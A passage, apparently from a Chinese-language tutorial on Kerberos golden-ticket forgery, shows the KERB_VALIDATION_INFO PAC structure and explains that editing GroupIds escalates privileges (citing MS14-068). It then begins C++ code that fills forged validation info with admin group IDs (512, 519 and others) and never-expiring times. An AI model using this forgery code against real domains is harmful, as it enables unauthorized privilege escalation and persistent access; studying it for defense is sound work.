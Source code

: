 ```c++
typedef struct _KERB_VALIDATION_INFO {
    FILETIME LogonTime;
    FILETIME LogoffTime;
    FILETIME KickOffTime;
    FILETIME PasswordLastSet;
    FILETIME PasswordCanChange;
    FILETIME PasswordMustChange;
    RPC_UNICODE_STRING EffectiveName;
    RPC_UNICODE_STRING FullName;
    RPC_UNICODE_STRING LogonScript;
    RPC_UNICODE_STRING ProfilePath;
    RPC_UNICODE_STRING HomeDirectory;
    RPC_UNICODE_STRING HomeDirectoryDrive;
    USHORT LogonCount;
    USHORT BadPasswordCount;
    ULONG UserId;
    ULONG PrimaryGroupId;
    ULONG GroupCount;
    [size_is(GroupCount)] PGROUP_MEMBERSHIP GroupIds;
    ULONG UserFlags;
    USER_SESSION_KEY UserSessionKey;
    RPC_UNICODE_STRING LogonServer;
    RPC_UNICODE_STRING LogonDomainName;
    PISID LogonDomainId;
    ULONG Reserved1[2];
    ULONG UserAccountControl;
    ULONG SubAuthStatus;
    FILETIME LastSuccessfulILogon;
    FILETIME LastFailedILogon;
    ULONG FailedILogonCount;
    ULONG Reserved3;
    ULONG SidCount;
    [size_is(SidCount)] PKERB_SID_AND_ATTRIBUTES ExtraSids;
    PISID ResourceGroupDomainSid;
    ULONG ResourceGroupCount;
    [size_is(ResourceGroupCount)] PGROUP_MEMBERSHIP ResourceGroupIds;
} KERB_VALIDATION_INFO, *PKERB_VALIDATION_INFO;
```

其中的 GroupIds 这个成员是指向 `GROUP_MEMBERSHIP` 结构列表的指针，该列表包含域中帐户所属的组。如果我们可以修改 GroupIds 成员，将其修改为特权组，那么就可以达到域内账户提权的效果，比如众所周知的 MS14-068 漏洞。

不过，为了防止 PAC 内容被篡改，微软后来在 PAC 结构中加入了服务器检验和（Server Checksum） 与 KDC 校验和（KDC Checksum），他们对应的 PAC\_INFO\_BUFFER 结构的 ulType 字段分别为 0x00000007 和 0x00000006。

前文中，`KerberosGenerateGoldenData()` 中调用的 `GenerateValidationInfo()` 函数的主要作用就是生成一个 `KERB_VALIDATION_INFO` 结构并保存在 `pValidationInfo` 变量中，以便后续插入到 PAC 结构中，如下所示。

```c++
PKERB_VALIDATION_INFO GenerateValidationInfo(PFILETIME pAuthtime, LPCWSTR lpUserName, LPCWSTR lpDomainName, LPCWSTR lpLogonDomainName, PISID pSid)
{
    PKERB_VALIDATION_INFO pValidationInfo = NULL;
    GROUP_MEMBERSHIP defaultGroups[] = { {513, DEFAULT_GROUP_ATTRIBUTES}, {512, DEFAULT_GROUP_ATTRIBUTES}, {520, DEFAULT_GROUP_ATTRIBUTES}, {518, DEFAULT_GROUP_ATTRIBUTES}, {519, DEFAULT_GROUP_ATTRIBUTES}, };
    PGROUP_MEMBERSHIP pDefaultGroups = (PGROUP_MEMBERSHIP)LocalAlloc(LPTR, sizeof(defaultGroups));
    RtlCopyMemory(pDefaultGroups, defaultGroups, sizeof(defaultGroups));
#define NEVERTIME(filetime) (*(PLONGLONG) filetime = MAXLONGLONG)
    if (pValidationInfo = (PKERB_VALIDATION_INFO)LocalAlloc(LPTR, sizeof(KERB_VALIDATION_INFO)))
    {
        pValidationInfo->LogonTime = *pAuthtime;
        // The values of the five timestamp member variables are all set to a 
        // constant MAXLONGLONG representing the maximum possible time in the future.
        NEVERTIME(&pValidationInfo->LogoffTime);
```
